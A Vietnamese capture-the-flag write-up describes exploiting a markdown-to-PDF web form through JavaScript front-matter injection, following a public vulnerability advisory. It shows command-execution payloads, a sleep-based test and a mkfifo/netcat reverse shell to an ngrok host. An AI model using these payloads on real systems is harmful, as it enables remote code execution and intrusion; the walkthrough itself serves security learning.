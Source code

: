 ![image](https://github.com/elliSzAt/CTF-compete/assets/125866921/27b9cf6a-ab55-4814-90c5-547879a8012a)

Khi vào chall thì trang web sẽ cho ta 1 form để điền như trên, sau khi điển xong và bấm vào ``Generate`` thì trang web sẽ tạo ra 1 file PDF và chuyển hướng ta đến đó.

![image](https://github.com/elliSzAt/CTF-compete/assets/125866921/d132060e-c641-44b6-957d-655815d388d9)

Để làm được challenge lần này, mình đã tham khảo đường link sau: https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

```
---js
((require("child_process")).execSync("id > /tmp/RCE.txt"))
---RCE
```

Với payload sau, mình thử thay đổi 1 tí để test xem cách mà nó thực thi.

```
---js
((require("child_process")).execSync("sleep 5"))
---RCE
```

Với payload trên thì trang web đã phải mất 5 giây để thực thi, do đó ta có thể inject vào đây. Tiếp theo mình sử dụng công cụ Reverse Shell để tạo shell

Trước tiên mình tạo cổng tcp với port là 1707 sau đó sử dụng ``nc -lvnp`` để lắng nghe từ cổng.

![image](https://github.com/elliSzAt/CTF-compete/assets/125866921/0e607138-0b3a-477d-a668-17a5d91fa5ec)

Sau khi tạo shell thành công mình bắt đầu kết hợp với payload:

```
---js
((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.jp.ngrok.io 18018 >/tmp/f"))
---RCE
```

![image](https://github.com/elliSzAt/CTF-compete/assets/125866921/2905a1ee-b462-4462-8d5c-9a68ade0c01e)

Mình đã kết nối thành công với server, sau đó truy cập vào file ``flag.txt`` và submit thui !
